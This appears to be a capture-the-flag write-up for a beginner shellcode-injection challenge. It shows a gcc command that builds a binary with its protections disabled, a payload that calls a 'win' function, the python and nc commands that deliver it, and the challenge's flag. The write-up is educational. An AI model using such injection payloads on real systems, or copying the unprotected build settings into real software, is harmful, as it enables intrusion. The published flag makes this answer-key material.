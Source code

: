 # Injection
This challenges introduces basic shellcode injection to the player.
**Description of the Challenge:**
A friend handed me this <Link>.
He said I have to do a Injection or something like this,
but I don't know how! Can you help me!

Hint: google shellcode

## Setup
* The file `injection_socket.py` implements a socketlistener in python. It waits on userinput of the correspoding program and pipes it back to the output
* The following command is used to generate the binary without protection mechanisms:
```gcc binary.c -z execstack -z norelro -fno-stack-protector -D_FORTIFY_SOURCE=0 -ggdb -m32 -static -o binary_32```

## Solution
* First, you have to disassembly the binary and look for a function called "win"
```objdump -d binary | grep win```

* Next you have to pipe assembler code to the program itself (e. g. `win` at `0x08048885`)
* Dissassembly:
```
mov eax, 0x08048885
call eax
```

* As a result, the payload looks like: `\xB8\x85\x88\x04\x08\xFF\xD0`

* Shell:
```
$ python -c "print '\xB8\x85\x88\x04\x08\xFF\xD0'" | ./binary_32
$ python -c "print '\xB8\x85\x88\x04\x08\xFF\xD0'" | nc ctf-server port
```

## Flag
Flag: THICTF{FUNCTION_P0INTERS_4RE_SO_TR1CKY}